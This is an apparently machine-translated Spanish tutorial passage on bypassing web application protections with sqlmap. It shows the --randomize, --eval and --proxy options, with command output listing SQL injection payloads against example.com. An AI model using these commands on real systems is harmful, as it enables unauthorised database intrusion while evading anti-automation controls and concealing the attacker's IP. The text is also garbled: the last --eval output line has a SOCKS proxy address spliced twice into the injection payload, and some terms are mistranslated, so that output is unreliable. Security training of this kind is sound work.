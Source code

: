 En algunos casos, la aplicación web solo puede requerir valores únicos para proporcionar dentro de los parámetros predefinidos. Tal mecanismo es similar a la técnica anti-CSRF descrita anteriormente, excepto que no es necesario analizar el contenido de la página web. Por lo tanto, simplemente garantizar que cada solicitud tenga un valor único para un parámetro predefinido, la aplicación web puede evitar fácilmente los intentos de CSRF y al mismo tiempo evitando algunas de las herramientas de automatización. Para esto, la opción`--randomize`debe usarse, señalando el nombre del parámetro que contiene un valor que debe ser aleatorizado antes de enviarse:

Omitiendo las protecciones de aplicaciones web

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URIURI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185

```

---

# **Bypass de parámetro calculado**

Otro mecanismo similar es cuando una aplicación web espera que se calcule un valor de parámetro adecuado en función de otros valores de parámetros. La mayoría de las veces, un valor de parámetro debe contener el digest de mensajes (por ejemplo,`h=MD5(id)`) de otro. Para evitar esto, la opción`--eval`debe usarse, donde se evalúa un código de pitón válido justo antes de que se envíe la solicitud al objetivo:

Omitiendo las protecciones de aplicaciones web

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URIURI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc

```

---

# **Dirección IP ocultando**

En caso de que queramos ocultar nuestra dirección IP, o si una determinada aplicación web tiene un mecanismo de protección de que las listas negras de nuestra dirección IP actual, podemos intentar usar un proxy o el Tor de la red de anonimato. Se puede configurar un proxy con la opción`--proxy`(p.ej`--proxy="socks4://177.39.187.70:33283"`), donde debemos agregar un proxy de trabajo.
